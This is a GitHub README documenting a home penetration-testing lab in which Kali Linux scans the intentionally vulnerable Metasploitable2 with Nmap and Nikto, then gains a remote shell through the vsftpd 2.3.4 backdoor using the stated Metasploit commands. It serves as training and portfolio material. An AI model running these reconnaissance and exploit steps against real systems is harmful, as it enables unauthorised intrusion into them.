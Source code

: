 # Ethical Hacking Lab: Exploiting vsftpd 2.3.4 on Metasploitable2

This project demonstrates a successful ethical hacking lab where I scanned, identified, and exploited a known vulnerability in an intentionally vulnerable virtual machine. The goal was to simulate real-world penetration testing techniques and document the process for recruiters and hiring managers to review.

---

## Lab Setup

| Role            | Machine           | OS/Tool Used     |
|-----------------|-------------------|------------------|
| Attacker        | Kali Linux (VM)   | Kali 2025.1c     |
| Victim          | Metasploitable2   | Linux (Ubuntu)   |
| Virtual Network | Host-Only (VMnet1)| VMware Workstation 17 Player |

---

## Tools Used

- [Kali Linux](https://www.kali.org/)  
- [Metasploitable2](https://sourceforge.net/projects/metasploitable/)  
- [Nmap](https://nmap.org/)
- [Nikto](https://github.com/sullo/nikto)
- [Metasploit Framework](https://www.metasploit.com/)

---

## Reconnaissance and Scanning

### Nmap Scan

Command:
```bash
nmap -sS -sV -O -A <victim-ip>

📌 Notable Results:
Port 21: FTP — vsftpd 2.3.4 (known backdoor vulnerability)

Port 22: OpenSSH 4.7p1 Debian

Port 23: Telnet enabled

Port 25: Exim mail server

Port 80: Apache 2.2.8 (outdated)

Port 3306: MySQL database server

Port 5432: PostgreSQL database server

Port 8180: Apache Tomcat/5.5.20 (default credentials enabled)

Port 139/445: Samba file sharing service

📸 Screenshot:![Nmap Scan](./screenshots/Image1.png)

🔎 Phase 2: Web Vulnerability Scan with Nikto
Command:
bash
nikto -h http://<victim-ip>

📌 Notable Results:
Apache version is outdated (2.2.8)

HTTP TRACE method is enabled (XST vulnerability)

PHP version is outdated (5.2.4-2ubuntu5.10)

/phpinfo.php is exposed (leaks environment variables)

/phpmyadmin and changelogs are exposed

Directory indexing is enabled

CVE-2009-3555 and other known Apache vulnerabilities are present

📸 Screenshot:![Nikto Scan](./screenshots/Image2.png)

💥 Phase 3: Exploitation with Metasploit (vsftpd 2.3.4 Backdoor)
Commands:
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <victim-ip>
set RPORT 21
run

💣 Result:
[*] 192.168.X.X:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.X.X:21 - Exploit completed, but no session was created
[*] 192.168.X.X:21 - Attempting to trigger backdoor...
[*] Command shell session 1 opened

🛠 Post-Exploitation Commands:
bash
whoami
uname -a
hostname
id

📌 Output:

OS: Linux metasploitable 2.6.x

Hostname: metasploitable

Access: Remote shell confirmed

📸 Screenshot:![Shell Access](./screenshots/Image3.png)(./screenshots/Image4.png)

🧠 Lessons Learned
How to perform recon using Nmap and Nikto

Identifying and exploiting real vulnerabilities

Gaining shell access using Metasploit

Importance of isolating testing environments

How to document and present offensive security findings

🔒 Disclaimer
This lab was conducted in a secure, offline environment using intentionally vulnerable systems.
Do NOT attempt these techniques on unauthorized or production systems.
This project is for educational and professional development purposes only.

🙋 Author
Crystal Hicks
Information Security Analyst
Linkedin: https://www.linkedin.com/in/crystal-brown333 
